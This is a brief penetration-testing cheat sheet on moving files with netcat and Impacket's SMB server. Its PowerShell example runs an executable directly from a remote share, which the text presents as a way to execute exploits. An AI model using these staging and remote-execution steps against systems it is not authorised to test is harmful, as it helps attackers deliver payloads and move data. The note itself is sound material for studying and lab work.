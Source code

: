 ## Netcat

Netcat sometimes comes as the command `netcat` or just `nc`.  The options are the same whether it is run on Windows or Linux.

**<u>WARNING</u>**:  When transferring files with netcat, the transfer will often freeze at the end and won't notify you it's complete.  You can cancel it with `CTRL+C` and check the file sizes on both ends to tell if it was successful.  For files under 10MB, it should take less than a minute for sure.

```bash
netcat [OPTIONS] host [REMOTE_PORT]

## Examples
# Server end
# Note that listening requires admin privileges
sudo nc -nvlp 8100 < file-to-send

# Client end
nc -nv 10.250.226.250 8100 > file-to-save

# Options
-n		# Numeric-only IP's
-v		# Verbose output, use twice for more verbose
-l		# listen (Server mode)
-p		# Used with -l to specify port
```

## SMB

You can spin up a quick SMB server on Kali Linux using Impacket's SMB Server.  You can connect to this from other servers and upload or download files, or even execute files (like exploits!):

<u>Start Server on Linux</u>

```bash
sudo impacket-smbserver SHARENAME LOCALFOLDER

#### Examples
# Start SMB Server from the current directory
sudo impacket-smbserver kalishare ./

#SMB Version 2 Support
sudo impacket-smbserver kalishare ./ -smb2support

#### Options
kalishare # sharename
./	# share mount point in local filesystem
```

<u>Connect to share from Windows</u>

```powershell
# List dir
dir \\10.250.226.250\kalishare
# Get file
copy \\10.250.226.250\kalishare\file.exe .
# Execute file directly from the share
\\10.250.226.250\kalishare\file.exe
```
